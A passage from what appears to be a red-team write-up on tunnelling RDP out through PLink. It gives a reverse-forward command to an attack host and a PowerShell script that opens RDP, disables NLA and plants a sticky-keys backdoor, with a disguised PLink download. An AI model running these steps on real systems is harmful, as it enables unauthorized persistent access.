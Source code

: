 ![rdp](images/rdp.png)

An issue you might notice with this, if your plan is to use this method in a red team engagement, is that the Windows host currently has shell access to the Kali machine via SSH. In this case and others, that may not be desirable.   To avoid this, we can use the PLink option -N to avoid starting a shell.

```
.\plink.exe -batch -N -hostkey dc:04:bf:44:47:98:c1:e2:c0:2e:cb:5d:3b:aa:bf:6f -R 12345:127.0.0.1:3389 192.168.220.132 -l toor -pw password1!
```
![noshell](images/noshell.png)

Notice in the above output that the PLink client did not start a shell, but the SSH session and the port forward are still active.

## Using PLink for Access

For the exercise I was part of, I used an FTP Server to host files that I needed. I used code for a local Windows privilege escalation exploit [CVE 2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213). I slightly altered the part of the exploit that originally opened cmd.exe and had it use PowerShell to download and run a script from my FTP site. The script would:
 1. Enable RDP
 2. Turn off RDP NLA
 3. Enable the default Windows Firewall rules to allow RDP
 4. Add a registry key to replace the sticky keys program with command prompt 
 5. Download PLink
 6. Port forward RDP to a random port on the attack machine

The script is commented below.
```powershell
    # Enable RDP
    Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name 'fDenyTSConnections' -Value 0

    # Disable NLA
    (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)

    # Enable default Windows Firewall rules for RDP
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

    # Sticky keys
    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"

    # Download PLink from my FTP Server - Save in System32 with name explore.exe
```